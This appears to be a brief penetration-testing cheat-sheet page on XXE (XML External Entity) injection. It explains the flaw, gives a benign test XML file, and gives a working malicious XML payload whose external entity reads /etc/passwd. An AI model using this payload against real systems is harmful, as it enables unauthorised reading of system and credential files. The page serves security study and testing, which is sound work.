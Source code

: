 ```yaml
---
description: XML External Entity
icon: file-xml
---
```


# XXE

<mark style="color:purple;">**XXE vulnerabilities arise when an**</mark>**&#x20;**<mark style="color:orange;">**`XML`**</mark>**&#x20;**<mark style="color:purple;">**document contains a reference to an external entity, which the parser resolves.**</mark>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-retrieve-files" %}
PayloadAllThings
{% endembed %}

{% hint style="info" %}
### <mark style="color:purple;">Recon</mark>

* <mark style="color:purple;">If you can create or submit a</mark> <mark style="color:orange;">**`XML`**</mark> <mark style="color:purple;">file, try to find the endpoint where is being submitted and check if is being parsed (for example a filling form will have the content of the file already filled on the form):</mark>

{% code title="Test file" overflow="wrap" %}
```xml
<post>
        <title>Tokyo's Post</title>
        <description>A post from Tokyo</description>
        <markdown>
## post
This is a test.
        </markdown>
</post>
```
{% endcode %}

* <mark style="color:purple;">Create a</mark> <mark style="color:orange;">**`XML`**</mark> <mark style="color:purple;">malicious file to read</mark> <mark style="color:orange;">**`/etc/passwd`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>Tokyo's Post</title>
        <description>Read File</description>
        <markdown>&file;</markdown>
</post>
```
{% endcode %}
{% endhint %}

